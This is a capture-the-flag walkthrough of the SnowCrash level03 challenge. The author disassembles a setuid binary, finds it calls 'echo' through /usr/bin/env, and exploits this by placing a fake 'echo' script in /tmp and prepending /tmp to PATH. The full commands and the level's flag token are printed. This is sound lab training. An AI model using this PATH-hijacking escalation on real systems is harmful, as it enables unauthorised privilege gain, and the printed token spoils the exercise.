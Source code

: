 Level 03
========

*	We spawn with a `level03` file in root repository
*	No extension so I try to execute it and it prints 'Exploit me'
*	Then I try to _cat_ the file but its unreadable since its an executable
*	Using `file` command I saw that I should be able to get the asm code:
	```console
	level03@SnowCrash:~$ file level03 
	level03: setuid setgid ELF 32-bit LSB executable...
	```
*	I wanted to get a good look at the file so I used scp to get it on my machine and then:
	```console
	root@DESKTOP-69N2SL4:~# objdump -M Intel -d level03 > dump.s
	```
*	Code was still kinda bad so I did a little script to make it cleaner:
	```console
	root@DESKTOP-69N2SL4:~# sh cutlines.sh
	```
*   We can see many calls but one of them is a system one :
	```assembly
	...
	call   80483b0 <system@plt>
	...
	```
*   So when we look into it on `gdb`
	```
	(gdb) x/s 0x80485e0
	0x80485e0:       "/usr/bin/env echo Exploit me"
	```
*   It seems like `echo` is vulnerable to manipulation since it's called using `/usr/bin/env` which makes the computer use the first binary found in `PATH`
*   So we should be able to create a script called echo to get the flag for us !
	```console
	level03@SnowCrash:~$ echo 'getflag' > /tmp/echo
	level03@SnowCrash:~$ export PATH=/tmp:$PATH
	level03@SnowCrash:~$ ./level03
	Exploit me
	```
*   DOESN'T WORK ! WHY ? (Well I forgot a little something)
	```console
	level03@SnowCrash:~$ chmod +x /tmp/echo
	level03@SnowCrash:~$ ./level03
	Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
	```